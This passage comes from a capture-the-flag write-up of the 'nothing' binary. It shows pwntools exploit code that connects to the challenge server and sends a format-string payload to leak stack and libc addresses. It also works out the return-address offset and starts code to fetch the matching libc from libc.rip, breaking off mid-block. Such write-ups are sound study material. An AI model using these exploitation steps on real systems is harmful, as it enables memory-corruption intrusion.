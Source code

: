 ### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./nothing')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    libc_index = 5
    p = remote('pwn02.chal.ctf.westerns.tokyo', 18247)
```

Boilerplate pwntool, however, `libc_index` is not _boilerplate_.  More on this below.


### Leak

```python
p.sendlineafter('> ','%36$p,%39$p')
_ = p.recvline().strip().split(b',')

stack_ret_addr = int(_[0],16) - 216
log.info('stack_ret_addr: ' + hex(stack_ret_addr))

__libc_start_main_231 = int(_[1],16)
log.info('__libc_start_main_231: ' + hex(__libc_start_main_231))
log.info('__libc_start_main: ' + hex(__libc_start_main_231 - 231))
```

Requesting parameters 36 and 39 provide the necessary bits to compute the location of the return address and libc (if we know the libc version).

The `216` above was hand computed from the stack diagram above, specifcally this section:

```
0x00007fffffffe370│+0x00f0: 0x00007fffffffe460  →  0x0000000000000001
0x00007fffffffe378│+0x00f8: 0x0000000000000000
0x00007fffffffe380│+0x0100: 0x00000000004007d0  →  <__libc_csu_init+0> push r15	 ← $rbp
```

The return address location is `0x00007fffffffe388` (just under (or above depending on how you look at it) `$rbp`), and the leak from offset 36 (`+0x00f0`) is `0x00007fffffffe460`.  `0x00007fffffffe460 - 0x00007fffffffe388 = 216`.


### Find and download libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'__libc_start_main':hex(__libc_start_main_231 - 231)[-3:]}})
        libc_url = r.json()[libc_index]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
```